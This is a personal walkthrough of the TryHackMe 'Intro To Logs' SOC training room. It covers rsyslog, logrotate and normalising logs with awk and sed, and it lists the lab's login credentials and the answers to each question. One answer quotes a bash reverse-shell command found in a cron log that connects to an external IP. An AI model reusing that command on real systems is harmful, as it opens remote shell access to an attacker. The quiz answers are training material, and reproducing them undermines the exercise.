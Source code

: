 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## SOC 2 Learning Pathway

### Introduction

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall
password: Logs321!

#### Q1:  What is the name of your colleague who left a note on the Desktop?

##### cat Desktop/note.txt (or open in the GUI)

! Perry

#### Q2: What is  full path to the suggested log file for initial investigation?

##### look in cat output of the note!

! /var/log/gitlab/nginx/access.log

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

#### Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?

##### Task 2 was discussing an Nginx server which is a web server...

>! Web Server Log !<

#### Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?

##### The materials clearly list what format the Nginx web server uses by default.

>! combined

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

#### Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?

##### after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

>! stansimon

#### Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?

##### cat /etc/rsyslog.d/99-websrv-02-cron.conf

>! 10.10.10.101

#### Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?

#####  cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

>! /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

#### Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?

##### cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

>! 24

#### Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?

##### See the output for the last question.

>! hourly

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

#### Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?

##### OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

>! No date field

#### What is the process of standardising parsed data into a more easily readable and query-able format?

##### This is what we did to the log file with all those awk sed and sort and uniq commands...

>! normalisation

#### What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?

##### This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

>! enrichment

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
